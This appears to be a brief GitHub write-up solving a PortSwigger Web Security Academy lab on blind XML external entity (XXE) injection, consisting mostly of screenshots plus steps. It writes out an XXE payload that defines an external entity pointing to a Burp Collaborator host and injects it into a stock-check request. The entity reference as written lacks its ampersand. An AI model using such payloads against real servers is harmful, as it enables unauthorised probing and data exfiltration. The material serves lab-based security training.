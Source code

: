 
![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0e97371a-4949-4541-879a-24bb52d7404d)

### Solution

we used the check stock feature

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f3ecc276-fbed-45cd-b412-5861506de66c)

Insert the following external entity definition in between the XML declaration and the stockCheck element

`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`

replace the burp collaborator subdomain wiht the corresponding value

enter `xxe;` at the product id section

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/cb4397eb-013a-4662-ad22-5093d88afc70)

now check in the burp poll sction, we can see that dns and http request was generated due to our payload

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a9864efe-9913-429c-8ba3-5c241e4370f5)

lab solved

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3a4f8197-ed58-4bf1-b700-943f1beeba07)

